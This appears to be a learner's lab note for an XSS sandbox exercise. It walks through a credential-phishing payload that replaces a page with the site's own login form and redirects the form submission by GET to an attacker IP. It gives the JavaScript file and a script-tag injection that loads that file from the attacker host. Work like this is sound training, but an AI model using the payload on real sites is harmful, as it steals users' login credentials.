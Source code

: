 To make the page as convincing as possible, we would ideally use an existing login page, replicate it, and change the _action_ attribute of the form. The Search application in the XSS sandbox has a login page located on `/login`.

![[Pasted image 20240805174257.png]]
While we could extract the HTML from this page and create a XSS payload to replace the content, we could also use JavaScript to get the HTML for us. That way, we don't have to handle massive amounts of HTML code in our JavaScript payload.

If we inspect the form in the Firefox developer tools, we find that the current form posts to index.php (within the login path).

![[Pasted image 20240805175327.png]]

In our script, we'll have to change the action attribute to our Kali IP. We'll also change the method to "get". This instructs the victim's browser to automatically add the payload to the URL query instead of the body, which makes it easier for us to find in our HTTP server logs.

xss6.js
```js
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.45.236"
	document.getElementsByTagName("form")[0].method = "get"
}))
```

We'll first use _fetch_ to grab the login page. Fetch responds with a JavaScript _promise_ and we can access the response by using the _then_ method. By passing in an [_arrow function_](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions), we can get access to the _text_ function within the response object. The _text_ function provides us access to the input stream (the HTML content of the login page, in this case). It also returns a promise. We can access the HTML content by passing another arrow function where the HTML content will be stored in a variable called _data_. To summarize, we make an HTTP GET request to /login, extract the text from the response, and store the text into a variable called _data_.

Next, we can replace the entire HTML document of the page we are running the XSS payload on with the data from the login page. We do this by searching for the html element and replacing the innerHTML with the HTML of the login page. Finally, we query for the newly-created form and replace the action and method.

We'll save the contents of this to xss.js and start the HTTP server. Next, we'll go back to the web root of the search application and type in our payload to exploit the injection vulnerability. Finally, we'll render the exploit page on the victim's browser. Before we click _Render_, we'll also check the "Blindly enter credentials" setting. This will simulate a gullible user that will log in when prompted.


Payload
```bash
<script src="http://192.168.45.236:80/xss6.js"></script>
```
In search field enter the script
![[Pasted image 20240805180401.png]]
Render with `Blindly entered credentials`
![[Pasted image 20240805180543.png]]
wait for credentials to finish being typed in and check `python3 -m http.server`
